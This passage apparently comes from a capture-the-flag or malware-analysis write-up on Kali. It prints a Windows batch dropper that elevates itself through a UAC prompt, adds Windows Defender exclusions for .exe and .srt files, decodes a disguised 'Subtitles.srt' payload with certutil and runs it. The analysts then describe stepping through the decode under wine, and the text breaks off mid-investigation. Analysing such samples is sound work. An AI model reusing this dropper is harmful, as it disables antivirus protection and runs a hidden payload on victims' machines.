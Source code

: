 ```bat
:getPrivileges
  if '%1'=='ELEV' (echo ELEV & shift /1 & goto gotPrivileges)
  
  ECHO Set UAC = CreateObject^("Shell.Application"^) > "%vbsGetPrivileges%"
  ECHO args = "ELEV " >> "%vbsGetPrivileges%"
  ECHO For Each strArg in WScript.Arguments >> "%vbsGetPrivileges%"
  ECHO args = args ^& strArg ^& " "  >> "%vbsGetPrivileges%"
  ECHO Next >> "%vbsGetPrivileges%"

  if '%cmdInvoke%'=='1' goto InvokeCmd 

  ECHO UAC.ShellExecute "!batchPath!", args, "", "runas", 1 >> "%vbsGetPrivileges%"
  goto ExecElevation

:InvokeCmd
  ECHO args = "/c """ + "!batchPath!" + """ " + args >> "%vbsGetPrivileges%"
  ECHO UAC.ShellExecute "%SystemRoot%\%winSysFolder%\cmd.exe", args, "", "runas", 1 >> "%vbsGetPrivileges%"

:ExecElevation
 "%SystemRoot%\%winSysFolder%\WScript.exe" "%vbsGetPrivileges%" %*
 exit /B

:gotPrivileges
 setlocal & cd /d %~dp0
 if '%1'=='ELEV' (del "%vbsGetPrivileges%" 1>nul 2>nul  &  shift /1)

 powershell -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionExt "exe"
 powershell -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionExt "srt"

 certutil -decodehex -f Subtitles.srt Subtitles_tmp.srt

 start Subtitles_tmp.srt
 cmd /k
 exit
```

We have this now, how do we run it?

```bat
certutil -decodehex -f Subtitles.srt Subtitles_tmp.srt
```

Obviously windows, but we're on Kali, so `wine` it is. To open a windows terminal in Kali, run `wine cmd`, this will enter a command promt, where it's possible to navigate to the local Kali files.

But, nothing interesting there that couldn't have been found in the `.msi` file.

We tried a bunch of lucky guesses, but got a small mistake in the IP.

Grepping the file again
